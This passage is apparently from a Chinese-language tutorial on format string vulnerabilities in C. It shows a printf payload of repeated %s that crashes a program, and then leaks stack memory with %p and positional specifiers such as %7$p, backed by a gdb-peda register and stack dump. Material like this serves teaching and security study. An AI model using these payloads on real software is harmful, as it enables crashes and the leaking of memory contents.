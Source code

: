 知道漏洞原理了，现在考虑这个漏洞能用在哪些方面。

### 使程序崩溃

这个应用很简单，就是用 %s 来输出信息，当输出地址不合法时程序自然就崩了。

```c
printf("%s%s%s%s%s%s%s%s%s%s");
```

### 泄露堆栈内存

在前面原理中其实我们已经实现了依次泄露出堆栈中信息的方法，也就是用 `%p`（也可以用其它啊，只要你能拿到数据，用什么随你便）来写格式化字符串。

现在我们改进一下，加上 n$ 来不按顺序获取堆栈内存。毕竟我们输入格式化字符串很多时候是有限的，但是我们需要的数据却在堆栈中很深的地方。

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd038 ("%7$p")
EBX: 0x0
ECX: 0x1
EDX: 0xf7fb487c --> 0x0
ESI: 0xf7fb3000 --> 0x1b1db0
EDI: 0xf7fb3000 --> 0x1b1db0
EBP: 0xffffd058 --> 0x0
ESP: 0xffffd020 --> 0xffffd038 ("%7$p")
EIP: 0x80484f2 (<main+55>:  call   0x8048370 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80484eb <main+48>: sub    esp,0xc
   0x80484ee <main+51>: lea    eax,[ebp-0x20]
   0x80484f1 <main+54>: push   eax
=> 0x80484f2 <main+55>: call   0x8048370 <printf@plt>
   0x80484f7 <main+60>: add    esp,0x10
   0x80484fa <main+63>: mov    eax,0x0
   0x80484ff <main+68>: mov    edx,DWORD PTR [ebp-0xc]
   0x8048502 <main+71>: xor    edx,DWORD PTR gs:0x14
Guessed arguments:
arg[0]: 0xffffd038 ("%7$p")
[------------------------------------stack-------------------------------------]
0000| 0xffffd020 --> 0xffffd038 ("%7$p")
0004| 0xffffd024 --> 0xffffd038 ("%7$p")
0008| 0xffffd028 --> 0xf7fb3000 --> 0x1b1db0
0012| 0xffffd02c --> 0xf7e191f0 (<init_cacheinfo+352>:  mov    DWORD PTR [esp+0x4],eax)
0016| 0xffffd030 --> 0x1
0020| 0xffffd034 --> 0x0
0024| 0xffffd038 ("%7$p")
0028| 0xffffd03c --> 0x8048500 (<main+69>:  push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x080484f2 in main ()
gdb-peda$
```
